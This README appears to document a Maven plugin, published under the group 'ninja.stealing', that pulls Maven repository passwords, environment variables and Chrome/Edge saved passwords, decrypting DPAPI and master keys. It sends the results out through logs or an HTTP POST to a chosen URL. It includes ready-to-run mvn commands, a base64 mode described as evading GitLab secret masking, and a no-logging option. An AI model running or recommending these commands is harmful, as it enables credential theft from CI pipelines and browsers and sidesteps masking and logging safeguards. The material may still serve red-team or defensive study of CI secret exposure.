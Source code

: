 # maven-password
Maven plugin to extract password from different source:
- maven settings (repositories and mirror password)
- env
- chrome/edge

## Usage
(no installation needed)
Requirement:
- a working maven install (JAVA_HOME, path, etc...)
```
mvn ninja.stealing:maven-password:0.0.4:dump
```

## Install (for source/debug)
```
git clone https://github.com/tr4l/maven-password.git
cd maven-password
mvn install
```

## Changelog

### 0.0.4

Added export for chrome password
- Windows: with and without DPAPI
- Windows: With and without a master key
- Linux: with the default Linux  master key
Added http delivery method
Added different logger (incuding nolog)
### 0.0.3

Added export of env variable 
Added b64 export (to avoid [MASKED] protection in gitlab)
Added Delivery interface. Only supporting log on first release
Added json export


## Advanced usage

Some example of advanced usage

### Changing/choosing logger

```
mvn ninja.stealing:maven-password:0.0.4:dump -Dlogger=nolog
```

Possible logger:
- nolog: no log. Even for the log delivery
- maven:(default) Use builtin maven logging
- system: write log using System.out

### Choose extractor

```
mvn ninja.stealing:maven-password:0.0.4:dump -Dextract='maven,env'
```
Possible extractor:
- all:(default) Use all extractor
- maven: Extract maven information
- env: Extract environment variables
- chrome: Extract chrome/edge password

### Choose delivery

```
mvn ninja.stealing:maven-password:0.0.4:dump -Ddelivery=http -Durl="http://127.0.0.1:8080/xxx"
```

Possible delivery:
- log:(default) Deliver extraction trough log
- http: Deliver extraction trough http POST request. This need an url parameter
- all: all of the above

## todo
- private keys
- sample settings
- maven root password?
- eclipse?


